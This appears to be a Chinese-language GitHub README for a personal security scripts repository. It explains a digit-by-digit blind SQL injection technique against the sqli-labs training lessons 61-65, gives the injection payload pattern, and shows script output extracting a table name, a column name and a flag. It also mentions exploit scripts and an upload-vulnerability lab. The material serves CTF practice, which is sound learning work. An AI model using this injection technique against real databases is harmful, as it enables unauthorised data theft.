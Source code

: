# some_scripts
some common-used scripts
一些常用的脚本

## less61-65-sqli-lab-exp
sqli-lab less60之后的盲注脚本

**注入原理**

0. MYSQL提供字符串切片操作，如

```sql
# mysql> select ascii('1'), (select substring(ascii('1'),1,1)), (select substring(ascii('1'),2,1));
# +------------+------------------------------------+------------------------------------+
# | ascii('1') | (select substring(ascii('1'),1,1)) | (select substring(ascii('1'),2,1)) |
# +------------+------------------------------------+------------------------------------+
# |         49 | 4                                  | 9                                  |
# +------------+------------------------------------+------------------------------------+
```

1. id=1到id=12都有值，且值不同；可参考源码中的`["Dumb","Angelina","Dummy","secure","stupid","superman","batman","admin","admin1","admin2","admin3","dhakkan","admin4"]`，因此可根据页面内容反推id， 例如当页面出现admin2，就知道id=9

2. 因此，使用分段带出ascii码值的方式注入，即将每一个字符的ascii值分成百位、十位、个位，每一位范围都是0~9，记为QUERY_ID

3. 当请求`id=('') or id=(QUERY_ID)`，数据库会执行注入的查询语句，我们可根据页面的回显确定QUERY_ID是多少，即字符ascii值的每一位数字是多少。

4. 本方法降低运算量至3次。实际上，本关130次的限制是怎么来的呢？
```markdown
表名：len('P79FGLN0JK') = 10， 
列名：len('secret_Y1P6')= 11，
flag：len('uwpeCvsrLcadsa8P7wSn9Ix4') =24*
访问次数 = (10+11+24)x3 = 125 < 130
```
所以，我更加确定这是作者想要我们使用的方法

5. 附录常见注入算法的复杂度

```markdown
|算法|复杂度|
|逐位比较|理论128次|
|位运算|理论8次|
|二分法|理论8次|
|本方法|理论3次|
```
我们一位、一位地跑出结果，以获取得到第3位字母'c'为例，其十进制的ascii值
利用ascii(substring(query,3,1))中

**运行结果**

```
markdown
boolean_sqli_exp.py'
[-]current content is:L
[-]current content is:LR
[-]current content is:LR2
[-]current content is:LR20
[-]current content is:LR20P
[-]current content is:LR20PA
[-]current content is:LR20PAL
[-]current content is:LR20PALH
[-]current content is:LR20PALHC
[-]current content is:LR20PALHCD
[-]table_name is:LR20PALHCD
[-]current content is:s
[-]current content is:se
[-]current content is:sec
[-]current content is:secr
[-]current content is:secre
[-]current content is:secret
[-]current content is:secret_
[-]current content is:secret_D
[-]current content is:secret_DO
[-]current content is:secret_DOY
[-]current content is:secret_DOYB
[+]column_name is:secret_DOYB
[-]current content is:J
[-]current content is:Jl
[-]current content is:Jll
[-]current content is:Jll9
[-]current content is:Jll98
[-]current content is:Jll98P
[-]current content is:Jll98PQ
[-]current content is:Jll98PQ8
[-]current content is:Jll98PQ8U
[-]current content is:Jll98PQ8Uy
[-]current content is:Jll98PQ8Uyk
[-]current content is:Jll98PQ8Uyka
[-]current content is:Jll98PQ8Uykak
[-]current content is:Jll98PQ8Uykakv
[-]current content is:Jll98PQ8Uykakvp
[-]current content is:Jll98PQ8Uykakvpy
[-]current content is:Jll98PQ8Uykakvpyc
[-]current content is:Jll98PQ8Uykakvpyc9
[-]current content is:Jll98PQ8Uykakvpyc9S
[-]current content is:Jll98PQ8Uykakvpyc9SP
[-]current content is:Jll98PQ8Uykakvpyc9SPs
[-]current content is:Jll98PQ8Uykakvpyc9SPst
[-]current content is:Jll98PQ8Uykakvpyc9SPstP
[-]current content is:Jll98PQ8Uykakvpyc9SPstPB
[+]FLAG is:Jll98PQ8Uykakvpyc9SPstPB
```

## CTF
CTF小工具

## EXPs
一些EXP脚本


## puzzles
自己出的CTF题，这是环境
1. web_easy_upload
上传漏洞靶场